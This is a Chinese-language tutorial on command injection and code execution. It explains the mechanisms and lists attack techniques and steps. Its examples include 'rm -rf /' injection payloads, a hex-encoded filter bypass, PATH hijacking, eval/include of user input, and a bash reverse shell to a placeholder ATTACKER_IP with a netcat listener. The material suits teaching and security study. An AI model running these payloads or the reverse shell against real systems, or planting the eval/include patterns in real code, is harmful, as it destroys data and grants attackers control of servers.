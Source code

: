 # 命令注入与代码执行的攻击技术

## 1. 技术原理解析

### 1.1 命令注入
命令注入（Command Injection）是一种攻击技术，攻击者通过在应用程序中注入恶意命令，利用应用程序对用户输入的不充分验证或过滤，从而在服务器上执行任意命令。这种攻击通常发生在应用程序将用户输入直接传递给系统命令执行的环境中。

**底层实现机制：**
- 应用程序接收到用户输入后，将其作为参数传递给系统命令。
- 如果输入未经过充分验证或过滤，攻击者可以通过注入特殊字符（如`;`、`&&`、`|`等）来拼接并执行额外的命令。
- 系统命令执行环境（如Shell）会解析并执行这些命令，导致攻击者能够控制服务器。

### 1.2 代码执行
代码执行（Code Execution）是指攻击者通过在应用程序中注入恶意代码，利用应用程序的漏洞执行任意代码。这种攻击通常发生在应用程序动态执行用户输入的代码片段时，如使用`eval()`、`exec()`等函数。

**底层实现机制：**
- 应用程序接收到用户输入后，将其作为代码片段动态执行。
- 如果输入未经过充分验证或过滤，攻击者可以通过注入恶意代码来执行任意操作。
- 代码执行环境（如PHP、Python等）会解析并执行这些代码，导致攻击者能够控制应用程序。

## 2. 常见攻击手法和利用方式

### 2.1 命令注入的常见手法
- **分号注入**：在输入中插入分号`;`，使得后续命令被独立执行。
  ```bash
  ping -c 1 127.0.0.1; rm -rf /
  ```
- **管道注入**：使用管道符`|`将前一个命令的输出作为后一个命令的输入。
  ```bash
  cat /etc/passwd | grep root
  ```
- **逻辑运算符注入**：使用逻辑运算符`&&`或`||`来执行多个命令。
  ```bash
  ping -c 1 127.0.0.1 && rm -rf /
  ```

### 2.2 代码执行的常见手法
- **`eval()`函数注入**：在PHP等语言中，`eval()`函数可以执行任意代码。
  ```php
  eval($_GET['code']);
  ```
- **`exec()`函数注入**：在Python等语言中，`exec()`函数可以执行任意代码。
  ```python
  exec(input("Enter code: "))
  ```
- **动态包含文件**：通过动态包含恶意文件来执行代码。
  ```php
  include($_GET['file']);
  ```

### 2.3 高级利用技巧
- **绕过过滤**：通过编码、混淆等手段绕过输入过滤。
  ```bash
  ping -c 1 127.0.0.1$(echo -e "\x3b\x72\x6d\x20\x2d\x72\x66\x20\x2f")
  ```
- **利用环境变量**：通过设置环境变量来执行命令。
  ```bash
  export PATH=/tmp:$PATH; echo "rm -rf /" > /tmp/ls; chmod +x /tmp/ls
  ```
- **利用文件上传**：通过上传恶意文件并执行来获取控制权。
  ```php
  move_uploaded_file($_FILES['file']['tmp_name'], '/tmp/evil.php');
  include('/tmp/evil.php');
  ```

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
- **操作系统**：Linux（如Ubuntu）
- **Web服务器**：Apache或Nginx
- **编程语言**：PHP、Python等
- **工具**：Burp Suite、Metasploit、Netcat等

### 3.2 攻击步骤
1. **识别漏洞**：通过手动测试或使用工具扫描应用程序，寻找可能存在命令注入或代码执行的漏洞。
2. **构造Payload**：根据漏洞类型，构造相应的Payload，如命令注入的`; rm -rf /`或代码执行的`eval($_GET['code'])`。
3. **执行攻击**：将Payload注入到应用程序中，观察服务器的响应和执行结果。
4. **获取控制权**：通过成功执行的命令或代码，获取服务器的控制权，如上传Web Shell、执行系统命令等。

## 4. 实际的命令、代码或工具使用说明

### 4.1 命令注入示例
```bash
# 假设应用程序执行以下命令
ping -c 1 $INPUT

# 攻击者输入
127.0.0.1; rm -rf /

# 实际执行的命令
ping -c 1 127.0.0.1; rm -rf /
```

### 4.2 代码执行示例
```php
// 假设应用程序包含以下代码
eval($_GET['code']);

// 攻击者输入
http://example.com/?code=system('rm -rf /');

// 实际执行的代码
system('rm -rf /');
```

### 4.3 工具使用说明
- **Burp Suite**：用于拦截和修改HTTP请求，测试命令注入和代码执行漏洞。
- **Metasploit**：用于生成Payload和进行渗透测试，如生成反向Shell。
- **Netcat**：用于监听端口和建立反向Shell连接。

```bash
# 使用Netcat监听端口
nc -lvp 4444

# 在目标服务器上执行反向Shell
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

## 结论
命令注入与代码执行是Web应用程序中常见且危险的安全漏洞。通过深入理解其技术原理和攻击手法，并掌握相应的防御措施，可以有效减少这类漏洞对应用程序的威胁。在实际开发中，应始终对用户输入进行严格的验证和过滤，避免将用户输入直接传递给系统命令或动态执行代码。

---

*文档生成时间: 2025-03-11 12:59:32*
